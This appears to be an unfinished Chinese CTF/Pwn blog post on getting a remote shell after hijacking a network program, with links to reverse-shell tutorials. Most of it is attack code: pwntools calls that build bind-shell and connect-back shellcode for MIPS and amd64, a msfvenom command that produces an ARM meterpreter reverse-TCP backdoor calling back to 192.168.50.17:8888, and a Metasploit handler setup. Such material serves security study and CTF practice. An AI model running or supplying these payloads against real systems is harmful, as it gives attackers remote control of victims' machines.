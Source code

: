 ```yaml
---
title: Getshell远程：真·RCE 正连？反连？不连？ 
date: 2020-12-13 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...真实的网络程序和Pwn题目中把输入输出映射到网络端口，二者程序本体的交互接口显然是不同的，后一种的CTF题目，真的具有现实意义么？如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？如果不能，我如何才能Getshell呢？


- [Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)
- [Linux反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)

在进入正题前，我们先说点别的。


## shellcode级别


```python
shellcraft.mips.linux.bindsh(9999)
shellcraft.mips.linux.connect('192.168.1.100',9999)+shellcraft.mips.linux.dupsh()
```

```
shellcraft.amd64.linux.bindsh(9999)
shellcraft.amd64.linux.connect('192.168.1.100',9999)+shellcraft.amd64.linux.dupsh()
```

## 命令执行级别

## 文件级别

```
➜  msfvenom --list payloads | grep linux | grep meterpreter_reverse_tcp                                                            
    linux/aarch64/meterpreter_reverse_tcp               Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
    linux/armle/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
    linux/mips64/meterpreter_reverse_tcp                Run the Meterpreter / Mettle server payload (stageless)
    linux/mipsbe/meterpreter_reverse_tcp                Run the Meterpreter / Mettle server payload (stageless)
    linux/mipsle/meterpreter_reverse_tcp                Run the Meterpreter / Mettle server payload (stageless)
    linux/ppc/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)
    linux/ppc64le/meterpreter_reverse_tcp               Run the Meterpreter / Mettle server payload (stageless)
    linux/ppce500v2/meterpreter_reverse_tcp             Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)
    linux/x86/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)
    linux/zarch/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
```

```
➜  msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.50.17 LPORT=8888 -f elf -o backdoor
```

```
msf5 > use exploit/multi/handler
msf5 > set payload linux/armle/meterpreter/reverse_tcp
msf5 > set LPORT 8888
msf5 > set LHOST 0.0.0.0
msf5 > run
```